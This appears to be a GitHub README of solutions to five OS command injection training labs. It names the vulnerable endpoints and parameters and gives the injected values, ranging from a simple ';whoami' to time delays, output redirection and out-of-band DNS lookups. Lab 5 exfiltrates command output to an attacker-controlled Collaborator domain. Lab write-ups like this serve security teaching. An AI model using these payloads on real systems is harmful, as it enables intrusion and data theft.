

# **OS Comand Injection**

### **Lab 1: OS command injection, simple case**
We can use `;`,`|` or `&` to run multiple commands in one request

**Solution:** In the post request to the /product/stock endpoint, modify the storeId parameter to `1;whoami`. Solution script: [Lab1.py](./Lab1.py).

### **Lab 2: Blind OS command injection with time delays**

**Solution:** In the post request to the /feedback/submit endpoint, modify the storeId parameter to `a;sleep 10 #`. Solution script: [Lab2.py](./Lab2.py)

### **Lab 3: Blind OS command injection with output redirection**

**Solution:** In the post request to the /feedback/submit endpoint, modify the storeId parameter to `a;whoami > /var/www/images/luc.txt #`. Then go to endpoint /image?filename=luc.txt to get the data. Solution script: [Lab3.py](./Lab3.py)

### **Lab 4: Blind OS command injection with out-of-band interaction**

**Solution:** In the post request to the /feedback/submit endpoint, modify the storeId parameter to `a;nslookup Your Burp Collaborator Client #`. Solution script: [Lab4.py](./Lab4.py)

### **Lab 5: Blind OS command injection with out-of-band data exfiltration**

You can get the output of the command by injecting the command to the attacker's and use `nslookup` command to cause a DNS lookup for new domain which contains the result of the command. For example: `nslookup` `` `whoami` ``.`domain` 

**Solution:** In the post request to the /feedback/submit endpoint, modify the storeId parameter to `a;nslookup` `` `whoami` ``.`(Your Burp Collaborator Client) #`. Then go to the Collaborator tab and get the answer.

Solution script: [Lab5.py](./Lab5.py)
